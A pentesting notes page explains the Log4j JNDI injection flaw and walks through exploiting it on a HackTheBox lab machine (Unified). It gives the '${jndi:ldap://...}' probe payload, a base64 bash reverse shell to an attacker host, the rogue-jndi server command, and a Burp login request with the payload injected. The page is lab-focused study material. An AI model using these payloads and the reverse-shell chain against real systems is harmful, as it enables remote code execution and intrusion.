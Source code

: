 ```yaml
---
title: Log4j
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web pentesting
  - java
  - serialization vulnerability
---
```


# Log4j

This Log4J vulnerability can be exploited by injecting operating system commands (OS Command Injection). Log4j is a popular logging library for Java created in 2001. The logging library's main purpose is to provide developers with a way to change the format and verbosity of logging through configuration files versus code. 

## What it does

What a logging library does, is instead of using print statements, the developer just uses a wrapper around the Logging class or object. So instead of using print(line), the code would look like this:

```
logging.INFO(“Application Started”)
logging.WARN(“File Uploaded”)
logging.DEBUG(“SQL Query Ran”)
```

Then the application has a configuration file which says what log levels (INFO, WARN, DEBUG, etc.) to display. This way when there is a problem with the application, the developer can enable DEBUG mode and instantly get the messages they need to identify the issue.

## Reconnaissance - Proof of Concept

The main way people have been testing if an application is vulnerable is by combining this vulnerability with JNDI.

**Java Naming and Directory Interface (JNDI)** is a Java API that allows clients to discover and look up data and objects via a name. These objects can be stored in different naming or directory services, such as Remote Method Invocation (RMI), Common Object Request Broker Architecture (CORBA), Lightweight Directory Access Protocol (LDAP), or Domain Name Service (DNS). By making calls to this API, applications locate resources and other program objects. A resource is a program object that provides connections to systems, such as database servers and messaging systems.

In other words, JNDI is a simple Java API (such as 'InitialContext.lookup(String name)') that takes just one string parameter, and if this parameter comes from an untrusted source, it could lead to remote code execution via remote class loading.

**LDAP is the acronym forLightweight Directory Access Protocol**, which is an open, vendor-neutral, industry standard application protocol for accessing and maintaining distributed directory information services over the Internet or a Network. The default port that LDAP runs on is port 389.

**Proof of concepts to see if it is vulnerable**:

**1.** Grab the request with the injectable parameter.

**2.** In the injectable parameter, inject something like this:

```
"${jndi:ldap://AtackerIP/whatever}"
```

With [tcpdump](tcpdump.md), check if the request with the payload produces some traffic to your attacker machine:

```bash
sudo tcpdump -i tun0 port 389
# -i: Select interface
# port: indicate the port where traffic is going to be captured. 
```

The tcpdump output shows a connection being received on our machine. This proves that the application is
indeed vulnerable since it is trying to connect back to us on the LDAP port 389.

## Exploitation

```
# Install Open-JDK and Maven as requirement
sudo apt install openjdk-11-jre maven

git clone https://github.com/veracode-research/rogue-jndi 

cd rogue-jndi

mvn package

# Once it's build, make a reverse shell in base64 with attacker machine and listening port
echo 'bash -c bash -i >&/dev/tcp/AtackerIP/AtackerPort 0>&1' | base64
# This will return something similar to this: YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK
 
# Get out of rogue-jndi folder and
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}" --hostname "10.129.96.149"
# In the bash command, copy paste your reverse shell in base64
# --hostname: Victim IP

# Now, open a terminal, launch netcat abd the listening port you defined in your payload.
```

With Burpsuite, get a request for login:

```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":false,"strict":true}
```

This request is from [HackTheBox machine: Unified](htb-unified.md). As we can read from the Unifi version exploit, the injectable parameter is "remember". So we insert there our payload and with Repeater, send the request:


```
POST /api/login HTTP/1.1
Host: 10.129.96.149:8443
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.129.96.149:8443/manage/account/login
Content-Type: application/json; charset=utf-8
Origin: https://10.129.96.149:8443
Content-Length: 104
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

{"username":"lala","password":"lele","remember":"${jndi:ldap://10.10.14.2:1389/o=tomcat}","strict":true}
```

Once we send that request, our jndi server will resend the reverse shell:

![jndi server](log4j.md)

And in our terminal with the nc listener we will get the reverse shell.

## Related labs

[Walkthrough HackTheBox machine: Unified](htb-unified.md).


